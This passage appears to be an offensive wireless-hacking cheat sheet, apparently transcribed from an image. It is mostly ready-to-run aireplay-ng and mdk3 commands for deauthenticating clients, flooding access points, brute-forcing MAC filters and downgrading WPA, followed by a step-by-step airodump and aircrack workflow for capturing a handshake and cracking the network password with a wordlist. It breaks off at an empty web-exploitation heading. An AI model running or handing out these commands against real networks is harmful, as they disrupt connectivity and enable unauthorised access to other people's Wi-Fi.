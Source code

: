 Replay (b is bssid, h is client mac)
```
    aireplay-ng --arpreplay -b 00:01:02:03:04:05 -h 00:04:05:06:07:08 wlan0mon
```

Aggressive replay (a is bssid, c is client mac)
```
    aireplay-ng --deauth 5 -a 00:01:02:03:04:05 -c 00:04:05:06:07:08 wlan0mon
```

Deauth (change 1 for multiple deauths, a is AP mac, c is client mac
```
    aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 wlan0mon
```

mdk3 broadcast ap to clients
```
    mdk3 wlan0mon b
```

mdk3 check hidden ssid
```
    mdk3 wlan0 p
```

mdk3 mac brute
```
    mdk3 wlan0 f
```

mdk3 wpa downgrade
```
    mdk3 wlan0 g -t 00:18:0A:33:C9:92
```

mdk3 deauth specific target
```
    mdk3 wlan0mon d -c 6 -b ~/target.txt
```

mdk3 auth test to ap
```
    mdk3 wlan0mon a -a bssid
```

General execution
```
    airmon-ng check kill
    airmon-ng start wlan0
    airodump-ng -w capture wlan0mon #(use to identify your target network)
    airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture2 wlan0mon #(switch to a second console)
    aireplay-ng -0 5 -a 00:11:22:33:44:55 -c 00:0F:B5:AB:CB:9D wlan0mon #(wait 60-120 seconds or longer)
    aircrack-ng -w ~/wordlist  /home/james/Desktop/wtest/capture2.cap
```

# Web Exploitation
## SQL

